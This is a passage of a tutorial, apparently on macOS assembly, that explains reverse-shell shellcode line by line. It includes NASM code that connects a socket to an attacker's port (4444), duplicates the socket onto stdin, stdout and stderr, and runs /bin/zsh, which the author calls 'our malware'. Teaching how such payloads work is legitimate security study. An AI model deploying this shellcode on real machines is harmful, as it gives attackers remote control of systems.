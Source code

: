 As you can see from the first comment, `mov rdi,r9` instruction puts the socket file descriptor (`r9`) into the `rdi` register, which is the first argument for the `connect()` syscall.

Then, the `xor rsi,rsi` and `push rsi` zero out the `rsi` register to represent `sin_zero` in the `sockaddr_in` structure, which is a structure for storing the `IP` address and port.

For simplicity, in this example, the IP address `0x0100007F` is `127.0.0.1` (localhost), and the port `0x5C110201` corresponds to the attacker's port `4444`.     

The `syscall` instruction makes the `connect()` system call to establish a connection with the specified IP and port.       

So, this part of the code connects the compromised machine to a remote attacker, which allows the attacker to communicate with the machine.      

Then, we need to **duplicating the file descriptors (dup2)**. What does it mean in ASM code? First of all, the `dup2` syscall is used to duplicate the socket file descriptor (`r9`) for the `stdin`, `stdout`, and `stderr`. Then, code loops through the file descriptors (`2`, `1`, and `0`) and duplicates the socket into these standard input/output/error channels. Finally, the `dec rsi` and `jns dup2_loop` instructions ensure that this loop continues until all file descriptors have been duplicated.      

Full source code for this part is looks like this:    

```nasm
; dup2(connfd,i)
mov rdi,r9           ; rdi -> Socket file descriptor from r9
push 2
pop rsi              ; rsi -> 2
dup2_loop:
push 90              ; dup2() syscall - 90
pop rax
bts rax,25
syscall

dec rsi              ; decrementing rsi by 1
jns dup2_loop        ; jump back to dup2_loop if rsi>=0
```

this allows the attacker to control the machine via the same socket they used to connect, making the compromised system's standard input/output go through the attacker's connection.      

In the last part of our malware we need executing the `/bin/zsh` shell:     

```nasm
; execve("/bin/zsh", "/bin/zsh", NULL);
xor rdx,rdx          ; rdx -> NULL

push rdx             ; store NULL on stack
mov rbx,'/bin/zsh'   ; store /bin/zsh in rbx
push rbx             ; push it onto the stack
mov rdi,rsp          ; rdi -> /bin/zsh

push rdx             ; argv[1] -> NULL
push rdi             ; argv[0] -> /bin/zsh
mov rsi,rsp          ; store {"/bin/zsh",NULL} in rsi

push 59              ; execve() syscall - 59
pop rax
bts rax,25
syscall
```
